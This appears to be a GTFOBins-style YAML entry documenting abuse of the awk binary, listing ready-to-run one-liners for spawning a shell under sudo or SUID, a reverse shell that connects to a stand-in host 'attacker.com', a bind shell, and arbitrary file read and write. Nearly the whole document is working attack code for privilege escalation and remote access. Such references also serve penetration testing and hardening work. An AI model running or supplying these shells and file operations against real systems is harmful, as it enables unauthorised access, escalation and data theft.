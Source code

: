 ```yaml
---
functions:
  execute:
    examples:
      - code: awk 'BEGIN {system("/bin/sh")}'
    features:
      - interactive
      - sudo-enabled
      - suid-enabled
  
  reverse-shell:
    examples:
      - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
        code: |
          RHOST=attacker.com
          RPORT=12345
          awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
              s = "/inet/tcp/0/" RHOST "/" RPORT;
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
    features:
      - non-interactive
      - sudo-enabled
      - suid-enabled
       
  bind-shell:
    examples:
      - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
        code: |
          LPORT=12345
          awk -v LPORT=$LPORT 'BEGIN {
              s = "/inet/tcp/" LPORT "/0/0";
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
    features:
      - non-interactive
      - sudo-enabled
      - suid-enabled

  file-read:
    examples:
      - code: |
          LFILE=file_to_read
          awk '//' "$LFILE"
    features:
      - sudo-enabled
      - suid-enabled
      
  file-write:
    examples:
      - code: |
          LFILE=file_to_write
          awk -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
    features:
      - sudo-enabled
      - suid-enabled
---
```

